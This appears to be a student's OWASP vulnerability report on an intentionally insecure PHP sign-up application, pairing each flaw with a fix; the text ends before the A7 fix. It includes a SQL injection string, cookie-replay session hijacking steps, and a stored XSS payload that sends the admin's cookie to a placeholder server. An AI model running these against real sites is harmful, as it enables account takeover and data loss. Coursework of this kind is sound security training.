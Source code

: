 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many problems with the code, but I will only mention the most relevant problems and the most important fixes (as I see them) for each OWASP vulnerability, without going into details. Had to draw a line somewhere, otherwise I could have ended up spending so much time with this (and the assignment didn’t say how specific we needed to be about the fixes). 

The OWASP vulnerabilities:

## A1

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
The “mysqli_real_escape_string” function can be used in “delete.php” on the $ticket variable, to prevent the SQL-injection (as used in “done.php” on other variables). But a simple input validation (fixed length + lowcase alfanum only) would also fix the problem in this case.
## A2
a) Guessable fixed admin credentials (admin/password), which are stored in the source code (login.php) with no encryption.<br> 
b) The cookie-session-id and the clear text admin credentials are sent over an unencrypted connection. You can see them with OWASP ZAP.

**How to identify (broken session management):** You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” Firefox add-on):

1. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
2. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
3. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser, to capture the cookie-session-id, when logging in.

**How to fix:** Use SSL for the website (see the GitHub Readme)! 

Besides that, the session could be re-generated and the old one destroyed with some intervals. And the session could be made to timeout sooner.  The “secure” and “path” parameters could be used for the session cookie (+ httponly to defend against A3).<br>
The admin credentials could be stored in the database with the password salted + hashed. The admin should be able to change (at least) the password. 

## A3
There are both Stored and Reflected XSS vulnerabilities. The Stored XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
How (stored XSS): Enter this code into the address field on the SignUp page;
```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```
When the admin logs in and takes a look at the sign-ups, his session-id should be written to the logs of “yourserver”. But you can also test with code like this, in any of the fields on the SignUp page; 
<body onload=alert('hello')>
Fix:  Html codes should be escaped using the htmlspecialchars or htmlentities PHP-functions + the input validated as tightly as possible (length, allowed characters, format etc.).

## A6
Credit card numbers are sent without SSL in cleartext with POST, and stored unencrypted in the database. And, the session cookie and the admin credentials can be stolen since SSL is not in use (see A2).

How: Capture the (imaginary) credit card numbers using OWASP ZAP.

Fix: Again, use SSL! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard
Regarding the session cookie and admin credentials, see the A2-fix.
## A7
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
How: Modify “yourserver” in this link to match your installation;  http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
Fix: 

